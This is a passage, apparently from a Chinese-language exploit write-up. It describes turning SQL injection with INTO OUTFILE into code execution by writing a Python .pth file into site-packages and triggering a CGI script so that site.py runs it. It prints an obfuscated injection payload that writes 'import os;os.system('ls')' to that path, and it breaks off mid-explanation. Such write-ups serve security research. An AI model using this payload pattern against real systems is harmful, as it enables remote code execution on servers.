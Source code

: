   
解析器会说：“啊，是的，我应该运行这行代码。”  
  
如果你想深入了解这一点，我们再次强烈推荐阅读 SonarSource Research 的解释——他们对这个原语的介绍比大多数人都要好。  
  
所以，计划很简单：  
1. 将包含 Python 代码的 
```
.pth
```

  
文件写入 
```
site-packages
```

  
目录，  
  
1. 触发 
```
/cgi-bin/ml-draw.py
```

  
。  
  
1. Apache 将启动 
```
/bin/python
```

  
，
```
site.py
```

  
会运行，我们的 
```
.pth
```

  
文件会被加载并执行——不需要可执行权限。  
  
完美。  
  
但计划只是计划——我们真的能做到吗？  
  
我们最初天真地尝试了以下查询：  

```
'/**/or/**/1=1/**/UNION/**/SELECT/**/'import os;os.system(\\'ls\\')'/**/into/**/outfile/**/'/var/log/lib/python3.10/site-packages/trigger.pth


```

  
最初的想法很简单：将 
```
import os;os.system('ls')
```

